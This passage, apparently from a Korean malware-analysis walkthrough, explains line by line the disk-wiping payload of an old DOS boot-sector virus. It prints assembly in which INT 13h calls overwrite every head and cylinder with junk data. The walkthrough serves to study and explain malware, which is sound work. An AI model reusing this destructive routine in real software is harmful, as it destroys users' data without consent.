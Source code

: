 **⭐ STEP 29**  
실제로 디스크 파괴가 이루어지는 코드다. 5000:5000 이라는 연관성 없는 데이터로 처음부터 덮어쓴다.
``` asm
smashit:
		mov     bx,5000h
		mov     es,bx
		int     13h                     ; 5000:5000의 데이터로 디스크 덮어쓰기
		jnc     skiponerror
		xor     ah,ah
		int     13h                     ; 실패하면 디스크 사용 선언
```
* bx에 5000h를 넣어 상관없는 메모리 오프셋을 가리킨다
* es에도 5000h를 넣어 상관없는 메모리 오프셋을 가리킨다.
* 인터럽트 13번의 3번 함수를 호출하여 디스크의 해당 공간을 5000:5000의 데이터로 덮어쓴다.(공격)
* 성공했다면 skiponerror로 분기한다.
* 실패했다면 ah를 초기화하여 0번 함수를 지정한다.
* 인터럽트 13번의 0번 함수를 호출하여 디스크 공간을 사용하겠다고 초기화한다.

**⭐ STEP 30**  
디스크 파괴가 이루어졌다면 다음 헤드, 다음 섹터를 반복하여 공격해서 전체를 파괴시킨다.
``` asm
skiponerror:
		inc     dh
		cmp     dh,maxhead              ; FDD는 2번 HDD는 4번 반복
		jb      smashanothersector      ; 다음 헤드 공격하기
		xor     dh,dh
		inc     ch
		jmp     short smashanothersector ; 다음 실린더 공격하기
```
* dh를 증가시킨다.
* dh와 maxhead를 비교하여 헤드 개수만큼 반복이 되었는지 체크한다.(FDD는 2번 HDD는 4번 반복)
* dh가 더 작다면 smashanothersector로 분기하여 다음 헤드를 공격한다.
* 헤드 개수만큼 반복이 끝났다면 dh를 초기화한다.
* ch를 증가시켜 다음 실린더를 가리킨다
* smashanothersector로 분기하여 다음 실린더를 공격한다.